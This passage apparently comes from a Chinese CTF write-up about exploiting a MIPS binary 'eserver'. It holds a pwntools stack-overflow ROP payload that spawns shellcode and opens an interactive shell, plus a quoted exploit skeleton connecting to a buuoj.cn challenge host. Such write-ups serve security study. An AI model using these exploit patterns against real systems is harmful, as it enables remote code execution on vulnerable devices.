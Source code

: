 ```python
padding = b"TruE"
shellcode = asm(shellcraft.sh())
payload = b'a'*504											# overflow
payload += b'b'*4										    # $fp								 
payload += p32(loc_A0730)    # $ra  
#----------------------------------------
payload += b'c'*36
payload += p32(sleep_TruE)   # $s0
payload += padding           # $s1
payload += padding           # $s2            
payload += p32(loc_92838)    # $s3
payload += p32(loc_13A354)   # ra  
#----------------------------------------
payload += b'd'*24
payload += padding           # $s0
payload += p32(loc_126440)   # $s1
payload += padding           # $s2
payload += p32(loc_23828)    # $ra
#----------------------------------------
payload += b'd'*28
payload += shellcode

p.sendlineafter('Input package: ', payload)
p.sendlineafter('Input package: ', 'EXIT')
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660894412215-2e568c75-e6e0-4bdb-9d08-db1c45af3d99.png)

既然都能直接调用sleep函数了，为什么不直接调用`system("/bin/sh")`呢？当然是可以的（自己需要修改一下下面的exp）：

```python
# exp来源自：https://mp.weixin.qq.com/s?__biz=Mzg4NzcxOTI0OQ==&mid=2247484858&idx=1&sn=12e41de29ab9a228dbace3151aef1fb5

#!/usr/bin/env python
#coding=utf-8
from pwn import*
context.log_level = "debug"
context.arch = "mips"
#context.endian = "small"
context.os = "linux"

main_arena = 0x1ebb80
s = lambda buf: io.send(buf)
sl = lambda buf: io.sendline(buf)
sa = lambda delim, buf: io.sendafter(delim, buf)
sal = lambda delim, buf: io.sendlineafter(delim, buf)
shell = lambda: io.interactive()
r = lambda n=None: io.recv(n)
ra = lambda t=tube.forever:io.recvall(t)
ru = lambda delim: io.recvuntil(delim)
rl = lambda: io.recvline()
rls = lambda n=2**20: io.recvlines(n)
su = lambda buf,addr:io.success(buf+"==>"+hex(addr))
local = 1
if local == 1:
    io=io=process(argv=['qemu-mipsel','-L','~/Desktop/mip/mipsel-linux-uclibc','./eserver'])
    #io=io=process(argv=['qemu-mipsel','-g','1234','-L','~/Desktop/mip/mipsel-linux-uclibc','./eserver'])
else:
    io=remote('node4.buuoj.cn',26469)

libc=ELF('./libc.so.6')
```